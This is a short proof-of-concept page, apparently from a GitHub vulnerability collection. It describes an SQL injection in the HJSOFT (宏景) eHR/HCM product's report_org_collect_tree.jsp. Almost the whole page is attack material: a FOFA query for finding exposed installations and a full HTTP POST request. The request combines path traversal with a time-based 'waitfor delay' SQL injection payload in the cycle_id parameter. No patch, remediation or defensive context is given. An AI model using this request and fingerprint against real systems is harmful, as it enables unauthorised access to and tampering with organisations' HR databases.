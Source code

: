 ## 宏景eHR-report_org_collect_tree.jsp存在SQL注入漏洞

## fofa
```
app="HJSOFT-HCM"
```

## poc
```
POST /templates/attestation/../../report/report_collect/report_org_collect_tree.jsp HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=C79DED09D8CE46170DEB697EA6999135
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

params=&isAction=2&cycle_id=2;waitfor%20delay%20'0:0:5'--%20
```

![f6c354c850bd15f2741ccad6633bea6f](../../images/b76e979f-959e-4c72-998c-ed9afde9bf96.png)
